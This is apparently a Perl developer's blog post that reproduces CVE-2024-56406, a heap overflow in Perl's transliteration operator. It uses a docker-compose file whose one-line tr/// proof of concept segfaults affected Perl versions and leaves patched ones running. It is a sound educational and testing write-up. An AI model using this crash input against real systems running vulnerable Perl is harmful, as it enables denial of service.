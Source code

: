 ```yaml
---
title: "CVE-2024-56406"
date: 2025-05-17T00:00:00+00:00
description: "Discussion about the CVE-2024-56406."
type: post
image: images/blog/cve-2024-56406.png
author: Mohammad Sajid Anwar
tags: ["perl"]
---
```


#### **DISCLAIMER:** Image is generated using `FREE` version of `ChatGPT`.
***

<br>

In the earlier [**post**](/blog/cve-in-perl) where I discussed `CVE` in general and re-created `CVE-2018-18311`, `CVE-2023-31486` and `CVE-2023-47038`.

Recently I found out about [**CPAN Security Group**](https://security.metacpan.org) which is the `CVE Numbering Authority (CNA)` for `CPAN` and `Perl`.

At the `Perl Toolchain Summit 2025`, I had the honour to meet some of the members of the group i.e. ` Stig Palmquist` and `Breno Oliveira`.

Continuing with the series, today I am talking about one more `CVE-2024-56406`.

This particular one affected `v5.34`, `v5.36`, `v5.38` and `v5.40`.

It's about heap buffer overflow when transliterating non-ASCII bytes.

According to the [**official document**](https://lists.security.metacpan.org/cve-announce/msg/28708725), the specific affected versions are below:

<br>

```bash
    from 5.40.0 until 5.40.2
    from 5.38.0 until 5.38.4
    from 5.36.0 through 5.36.3
    from 5.34.0 through 5.34.3
```

<br>

I will use the similar pattern as before and create docker container with affected `Perl` versions.

In that, I'll also add couple of good ones as well.

This is my docker configuration file: `docker-compose.yml`

<br>

```bash
version: '3.8'

services:
  perl_5_34_0:
    container_name: perl_5_34_0
    image: perl:5.34.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_36_0:
    container_name: perl_5_36_0
    image: perl:5.36.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_38_0:
    container_name: perl_5_38_0
    image: perl:5.38.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_38_4:
    container_name: perl_5_38_4
    image: perl:5.38.4
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_40_0:
    container_name: perl_5_40_0
    image: perl:5.40.0
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  perl_5_40_2:
    container_name: perl_5_40_2
    image: perl:5.40.2
    command:
      - perl
      - -e
      - |
        $$m = "\x{FF}" x 1000000;
        $$m =~ tr/\xFF/\x{100}/;
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G
```

<br>

In summary, I am creating the following services that would throw error as expected:

<br>

```bash
    perl_5_34_0
    perl_5_36_0
    perl_5_38_0
    perl_5_40_0
```

<br>

There are two more services `perl_5_38_4` and `perl_5_40_2` which should be safe and unaffected.

<br>

Finally it's time to re-create the issues.

<br>

```bash
$ docker-compose run -rm perl_5_34_0
Creating cve-2024-56406_perl_5_34_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_36_0
Creating cve-2024-56406_perl_5_36_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_38_0
Creating cve-2024-56406_perl_5_38_0_run ... done
ERROR: 139
```

<br>

```bash
$ docker-compose run -rm perl_5_40_0
Creating cve-2024-56406_perl_5_40_0_run ... done
ERROR: 139
```

<br>

If you noticed, the exit code is `139` in the affected services.

As we know, `Exit Code = Signal Number + 128` and the `segfault` signal number is `11`.

And the good ones are:

<br>

```bash
$ docker-compose run -rm perl_5_38_4
Creating cve-2024-56406_perl_5_38_4_run ... done
If you see this, Perl didn't crash!!
```

<br>

```bash
$ docker-compose run -rm perl_5_40_2
Creating cve-2024-56406_perl_5_40_2_run ... done
If you see this, Perl didn't crash!!
```

<br>

***

<br>

`Happy Hacking !!!`
